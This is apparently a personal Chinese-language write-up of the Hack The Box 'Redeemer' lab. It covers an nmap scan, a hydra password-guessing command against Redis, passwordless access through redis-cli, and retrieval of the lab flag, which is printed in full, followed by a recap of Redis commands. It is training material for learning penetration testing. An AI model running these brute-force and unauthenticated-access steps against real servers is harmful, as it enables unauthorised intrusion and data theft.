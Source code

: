 ```yaml
---
title: Redeemer
icon: microchip
date: 2025-07-09
tags:
  - Redis无密码登录
  - Redis基础操作
category:
  - 打靶
  - HTB
---
```

[[toc]]
## 参考资料
- [菜鸟教程 - Redis教程](https://www.runoob.com/redis/redis-tutorial.html)
- [HackViser - Redis篇](https://hackviser.com/tactics/pentesting/services/redis)
- [HTB本题官方WP](blob:https://app.hackthebox.com/ffe2e2f5-a071-4220-94c5-14572336f0ce)
***
## Tasks
### 端口扫描结果
```shell
└─# nmap -T5 -p 6379 -A 10.129.14.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 09:45 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.129.14.31
Host is up (0.00032s latency).

PORT     STATE    SERVICE VERSION
6379/tcp filtered redis
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: D-Link DFL-700 firewall (89%), HP Officejet Pro 8500 printer (89%), ReactOS 0.3.7 (89%), Sanyo PLC-XU88 digital video projector (89%), Sonus GSX9000 VoIP proxy (88%), Asus WL-500gP wireless broadband router (88%), Microsoft Windows 2000 (88%), Microsoft Windows Server 2003 Enterprise Edition SP2 (88%), Microsoft Windows Server 2003 SP2 (88%), Novell NetWare 6.5 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.21 ms 192.168.100.2
2   0.26 ms 10.129.14.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.94 seconds

```
先做了前三道题才回来扫的
### Task1 靶机开放了哪个TCP端口
```
6379
```
### Task2 上面的端口开放了什么服务
```
Redis
```
### Task3 Redis是什么类型的数据库
```
In-memory Database
```
答案的连字符都露出来了……what can I say
### Task4 哪一个CLI工具是用于和Redis服务器交互的
```
redis-cli
```
### Task5 redis-cli使用哪个参数来指定主机地址
![](assets/Pasted%20image%2020250709214743.png)
```
-h
```
### Task6 
**连接上Redis服务器后，使用哪个指令来获取Redis服务器的信息和统计数据**
```shell
hydra -P /usr/share/wordlists/fasttrack.txt redis://10.129.14.31
# hydra爆破结果显示靶机不需要密码登录

└─# redis-cli -h 10.129.14.31 -p 6379                                                                   
10.129.14.31:6379> 
# 
```

```shell
info
```
![](assets/Pasted%20image%2020250709215703.png)
### Task7 靶机的Redis服务是什么版本
```
5.0.7
```
登上去之后输入`info`指令查看
### Task8 使用哪个指令切换Redis数据库
```
select <整数索引>
```

![](assets/Pasted%20image%2020250709220036.png)
### Task9 索引`0`的数据库内有多少个键
>How many keys are present inside the database with index 0?


![](assets/Pasted%20image%2020250709221418.png)
使用`info`指令可以看到当前只有一个数据库（索引为`0`），其中只有四个**键**
```shell
4
```
### Task10 哪个指令用于获取数据库中的所有键
```shell
keys <模式>
keys * # 匹配所有key
```
![](assets/Pasted%20image%2020250709221646.png)
### flag
```
10.129.14.31:6379> dump flag # 序列化一个key
"\x00 03e1d2b376c37ab3f5319922053953eb\t\x00\xeff$7\xf4.\xdeE"
(1.07s)
10.129.14.31:6379> get flag # 获取一个key的值
"03e1d2b376c37ab3f5319922053953eb"
(2.56s)
```
## 回顾
### Redis基本操作
```shell
# Redis连接和爆破
redis-cli -h <域名或IP地址> -p <端口号> [-u <用户名>] -a <密码>
# 用户名和密码都是可选的
hydra [-p <密码>]/[-P /usr/share/wordlist/fattrack.txt] redis://<IP地址>:<端口>
# 因为靶机开启了passwordless登录模式，所以不需要密码也能登上去; Hydra也会首先尝试无密码登录
```

```
info # 查看Redis服务器信息; 最下面是数据库索引列表、数据库中有多少key以及什么时候过期
select <索引> # 数据库是按索引排下来的
keys <模式> # 匹配并输出符合的所有键; 若要匹配所有键请输入 `keys *`
set <键名> <值> # 设置一个键的值
get <键名> # 获取一个键的值
```

***
## 页面尾部